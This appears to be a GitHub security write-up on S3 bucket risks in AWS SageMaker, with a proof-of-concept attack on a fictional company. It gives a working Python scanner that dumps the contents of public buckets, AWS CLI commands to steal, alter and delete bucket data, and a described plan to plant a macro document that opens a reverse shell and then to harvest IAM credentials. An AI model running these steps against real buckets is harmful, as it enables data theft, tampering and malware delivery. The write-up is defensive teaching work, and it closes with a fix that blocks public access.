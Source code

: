 # AWS Sagemaker S3 Bucket Vulnerabilities

## Sagemaker Architecture

![image](https://github.com/caadams4/s3-killchain/assets/79220528/8a74b556-61e3-4c8a-acf3-2c69f4561dda)

## s3 Buckets and Sagemaker

Protecting an S3 bucket used by AWS SageMaker is crucial for several reasons:

### 1. Data Security
- **Sensitive Data**: S3 buckets often store sensitive data, including training datasets, model artifacts, and output predictions. Unauthorized access could lead to data breaches and exposure of confidential information.
- **Compliance**: Many organizations must comply with regulations (e.g., GDPR, HIPAA) that require strict data protection measures. Ensuring the security of S3 buckets helps maintain compliance with these regulations.

### 2. Integrity of Data
- **Accurate Models**: The integrity of the training data is essential for developing accurate machine learning models. Unauthorized changes to the data can lead to corrupted or biased models, affecting their performance and reliability.
- **Traceability**: Protecting the data ensures that the lineage and provenance of the data are maintained, which is important for auditing and reproducibility.

### 3. Operational Continuity
- **Service Disruption**: Unauthorized access or malicious activities (e.g., data deletion, encryption by ransomware) can disrupt services. Ensuring proper security measures are in place helps maintain the availability and reliability of AWS SageMaker services.

## s3 Buckets Overview
Amazon S3 (Simple Storage Service) is a scalable object storage service provided by AWS. While it is designed for high availability, scalability, and secure storage of data, misconfigurations and misuse can lead to serious security vulnerabilities. Understanding these vulnerabilities is crucial for securing your data effectively.

## Common Vulnerabilities

### 1. **Misconfigured Bucket Permissions**
   - **Public Access:** S3 buckets can be configured to allow public access, either intentionally or accidentally. This can lead to unauthorized data exposure and breaches.
   - **Complex Access Policies:** Errors in bucket policies or IAM (Identity and Access Management) roles can result in unintended permissions, potentially allowing unauthorized users to access or modify data.

### 2. **Unsecured Data Transfers**
   - **Data in Transit:** Data not using SSL/TLS encryption during transfer is susceptible to interception by malicious actors.
   - **Encryption at Rest:** Failure to enable encryption at rest allows physically accessed data to be readable.

### 3. **Outdated Data Management Policies**
   - **Retention Policies:** Improperly managed data lifecycle policies can lead to retaining sensitive data longer than necessary, increasing the risk if the bucket is compromised.
   - **Deletion Policies:** Accidental or malicious deletion of important data due to lack of safeguards or backup strategies.

## Best Practices for Securing S3 Buckets
1. **Enable Bucket Encryption:** Always use server-side encryption (SSE) to protect data at rest.
2. **Use Secure Transport Protocols:** Enforce the use of HTTPS to secure data in transit.
3. **Implement Strong Access Controls:** Use IAM roles and bucket policies to strictly control who can access the data.
4. **Enable Logging and Monitoring:** Utilize AWS CloudTrail and other monitoring tools to keep an eye on bucket usage and access patterns.
5. **Regularly Review Permissions:** Periodically audit S3 buckets and IAM roles to ensure only necessary permissions are granted.

# Performing a PoC Attack on a vulnerable s3 Bucket

## Reconning an organization and scanning for misconfigured s3 buckets

Given a Website for a fake company `Sage` we can generate a wordlist that we can use for fuzzing webpages, subdomains, usernames, and s3 buckets.

We will use cewl to generate the wordlist: `cewl http://34.237.3.44/ -w bucket-names.txt`

Next: we'll fast-forward to fuzzing for s3 buckets. Here I have a custom Python3 script that takes in a wordlist and fuzzes for s3 buckets that are publically accessible.

```Python3
import argparse
import requests
from colorama import Fore, Back, Style
from colorama import init
init(autoreset=True) 

def scan_4_public_access(bucket_names):
    for bucket_name in bucket_names:
        url = f'http://{bucket_name}.s3.amazonaws.com/'
        response = requests.get(url)
        if response.status_code == 200:
            print(Fore.RED + Style.BRIGHT + f"*** Bucket {bucket_name} -- HIT!!! Publicly accessible! Dumping contents!*** ")
            print(response.text)  # This will print the contents of the bucket, if listing is enabled.
        else:
            print(Fore.GREEN + f"Bucket {bucket_name} -- miss")


def parse_wordlist(filename):
    """Reads a wordlist file and returns a list of lines."""
    try:
        with open(filename, 'r') as file:
            return [line.strip() for line in file if line.strip()]
    except FileNotFoundError:
        print(f"Error: The file '{filename}' does not exist.")
        return []
    except IOError as e:
        print(f"Error: Could not read file '{filename}'. {e}")
        return []


def main():
    parser = argparse.ArgumentParser(description="Parse a wordlist into a list.")
    parser.add_argument('wordlist', type=str, help="Filename of the wordlist")
    
    args = parser.parse_args()
    
    # Parse the wordlist file into a list called bucket_names
    bucket_names = parse_wordlist(args.wordlist)
    
    # Optionally, print or process the bucket_names list here to demonstrate functionality
    print("Scanning buckets for public access!")

    scan_4_public_access(bucket_names)


if __name__ == "__main__":
    main()
```

## Scan, steal, manipulate, upload malware

Using our tool to scan for our target bucket - 

![image](https://github.com/caadams4/s3-killchain/assets/79220528/4eb9b3f5-b79f-4c8d-82a6-7d2979f82dd1)


We can manipulate the data with aws cli tools

* **List bucket contents** `aws s3 ls s3://securetrust/`
* **Download bucket data** `aws s3 cp s3://securetrust/ . --recursive`
* **Upload to bucket** `aws s3 cp scan.py s3://securetrust/`
* **Delete bucket data** `aws s3 rm s3://securetrust/fraudTrain.csv`

**Uploading Malware**

We can upload infected Microsoft Office documents to the bucket in hopes that an employee who manages AWS Sagemaker will open it out of curiosity.

Here is a Macro embedded into a Microsoft Office file that will connect to a command and control server that I control. 

![image](https://github.com/caadams4/s3-killchain/assets/79220528/3ec9efb7-f380-4276-b0bf-37b8a3b60b73)

**Getting a reverse shell**

Once the user opens the document a reverse shell is triggered: 

![image](https://github.com/caadams4/s3-killchain/assets/79220528/096135b4-cce4-4879-b6ac-144e021ab17f)

**Post-Exploitation**

After obtaining access to the victim machine, it will be necessary to perform privilege escalation plunder the contents of their files in search of IAM or other AWS credentials stored in environment variables or credential files. 

## A simple fix

The s3 bucket we exploited was publically accessible with read/write privileges. To fix this create another new bucket checking `ACLs disabled` and enable `Block Public Access` during creation.  

![image](https://github.com/caadams4/s3-killchain/assets/79220528/3b5e6756-355c-4b74-87c4-b0b56fc29a31)




## Conclusion
Securing an AWS S3 bucket requires careful attention to configuration settings and access controls. By understanding common vulnerabilities and adopting best practices, organizations can significantly mitigate risks associated with S3 storage.
